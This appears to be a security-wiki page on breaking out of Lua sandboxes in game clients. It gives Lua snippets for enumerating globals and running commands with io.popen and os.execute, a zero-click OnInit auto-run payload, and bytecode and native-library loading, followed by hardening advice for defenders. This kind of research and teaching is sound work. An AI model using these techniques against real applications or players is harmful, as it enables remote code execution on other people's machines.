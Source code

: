 # Bypass Lua sandboxes (embedded VMs, game clients)

This page collects practical techniques to enumerate and break out of Lua "sandboxes" embedded in applications (notably game clients, plugins, or in-app scripting engines). Many engines expose a restricted Lua environment, but leave powerful globals reachable that enable arbitrary command execution or even native memory corruption when bytecode loaders are exposed.

Key ideas:
- Treat the VM as an unknown environment: enumerate _G and discover what dangerous primitives are reachable.
- When stdout/print is blocked, abuse any in-VM UI/IPC channel as an output sink to observe results.
- If io/os is exposed, you often have direct command execution (io.popen, os.execute).
- If load/loadstring/loadfile are exposed, executing crafted Lua bytecode can subvert memory safety in some versions (≤5.1 verifiers are bypassable; 5.2 removed verifier), enabling advanced exploitation.

## Enumerate the sandboxed environment

- Dump the global environment to inventory reachable tables/functions:

```lua
-- Minimal _G dumper for any Lua sandbox with some output primitive `out`
local function dump_globals(out)
  out("=== DUMPING _G ===")
  for k, v in pairs(_G) do
    out(tostring(k) .. " = " .. tostring(v))
  end
end
```

- If no print() is available, repurpose in-VM channels. Example from an MMO housing script VM where chat output only works after a sound call; the following builds a reliable output function:

```lua
-- Build an output channel using in-game primitives
local function ButlerOut(label)
  -- Some engines require enabling an audio channel before speaking
  H.PlaySound(0, "r[1]") -- quirk: required before H.Say()
  return function(msg)
    H.Say(label or 1, msg)
  end
end

function OnMenu(menuNum)
  if menuNum ~= 3 then return end
  local out = ButlerOut(1)
  dump_globals(out)
end
```

Generalize this pattern for your target: any textbox, toast, logger, or UI callback that accepts strings can act as stdout for reconnaissance.

## Direct command execution if io/os is exposed

If the sandbox still exposes the standard libraries io or os, you likely have immediate command execution:

```lua
-- Windows example
io.popen("calc.exe")

-- Cross-platform variants depending on exposure
os.execute("/usr/bin/id")
io.popen("/bin/sh -c 'id'")
```

Notes:
- Execution happens inside the client process; many anti-cheat/antidebug layers that block external debuggers won’t prevent in-VM process creation.
- Also check: package.loadlib (arbitrary DLL/.so loading), require with native modules, LuaJIT's ffi (if present), and the debug library (can raise privileges inside the VM).

## Zero-click triggers via auto-run callbacks

If the host application pushes scripts to clients and the VM exposes auto-run hooks (e.g., OnInit/OnLoad/OnEnter), place your payload there for drive-by compromise as soon as the script loads:

```lua
function OnInit()
  io.popen("calc.exe") -- or any command
end
```

Any equivalent callback (OnLoad, OnEnter, etc.) generalizes this technique when scripts are transmitted and executed on the client automatically.

## Dangerous primitives to hunt during recon

During _G enumeration, specifically look for:
- io, os: io.popen, os.execute, file I/O, env access.
- load, loadstring, loadfile, dofile: execute source or bytecode; supports loading untrusted bytecode.
- package, package.loadlib, require: dynamic library loading and module surface.
- debug: setfenv/getfenv (≤5.1), getupvalue/setupvalue, getinfo, and hooks.
- LuaJIT-only: ffi.cdef, ffi.load to call native code directly.

Minimal usage examples (if reachable):

```lua
-- Execute source/bytecode
local f = load("return 1+1")
print(f()) -- 2

-- loadstring is alias of load for strings in 5.1
local bc = string.dump(function() return 0x1337 end)
local g = loadstring(bc) -- in 5.1 may run precompiled bytecode
print(g())

-- Load native library symbol (if allowed)
local mylib = package.loadlib("./libfoo.so", "luaopen_foo")
local foo = mylib()
```

## Optional escalation: abusing Lua bytecode loaders

When load/loadstring/loadfile are reachable but io/os are restricted, execution of crafted Lua bytecode can lead to memory disclosure and corruption primitives. Key facts:
- Lua ≤ 5.1 shipped a bytecode verifier that has known bypasses.
- Lua 5.2 removed the verifier entirely (official stance: applications should just reject precompiled chunks), widening the attack surface if bytecode loading is not prohibited.
- Workflows typically: leak pointers via in-VM output, craft bytecode to create type confusions (e.g., around FORLOOP or other opcodes), then pivot to arbitrary read/write or native code execution.

This path is engine/version-specific and requires RE. See references for deep dives, exploitation primitives, and example gadgetry in games.

## Detection and hardening notes (for defenders)

- Server side: reject or rewrite user scripts; allowlist safe APIs; strip or bind-empty io, os, load/loadstring/loadfile/dofile, package.loadlib, debug, ffi.
- Client side: run Lua with a minimal _ENV, forbid bytecode loading, reintroduce a strict bytecode verifier or signature checks, and block process creation from the client process.
- Telemetry: alert on gameclient → child process creation shortly after script load; correlate with UI/chat/script events.

## References

- [This House is Haunted: a decade old RCE in the AION client (housing Lua VM)](https://appsec.space/posts/aion-housing-exploit/)
- [Bytecode Breakdown: Unraveling Factorio's Lua Security Flaws](https://memorycorruption.net/posts/rce-lua-factorio/)
- [lua-l (2009): Discussion on dropping the bytecode verifier](https://web.archive.org/web/20230308193701/https://lua-users.org/lists/lua-l/2009-03/msg00039.html)
- [Exploiting Lua 5.1 bytecode (gist with verifier bypasses/notes)](https://gist.github.com/ulidtko/51b8671260db79da64d193e41d7e7d16)

